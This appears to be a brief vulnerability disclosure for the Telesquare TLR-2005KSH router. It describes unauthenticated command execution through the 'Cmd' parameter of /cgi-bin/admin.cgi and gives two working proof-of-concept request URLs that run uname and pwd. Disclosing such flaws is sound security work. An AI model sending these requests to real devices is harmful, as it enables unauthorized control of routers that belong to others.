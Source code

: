# Telesquare TLR-2005KSH The router has an unauthorized remote command execution vulnerability

## Vulnerability Details：

By inputting the following payload to access vulnerable devices, an attacker can exploit this vulnerability to execute system commands unauthorized through the 'Cmd' parameter



/cgi-bin/admin.cgi?Command=sysCommand&Cmd=uname%20-a

![1734088238407](https://raw.githubusercontent.com/kklzzcun/route/main/assets/1734088238407.jpg)

/cgi-bin/admin.cgi?Command=sysCommand&Cmd=pwd

![1734088373076](https://raw.githubusercontent.com/kklzzcun/route/main/assets/1734088373076.jpg)

This vulnerability affects known product versions: 2.6.36 and later.

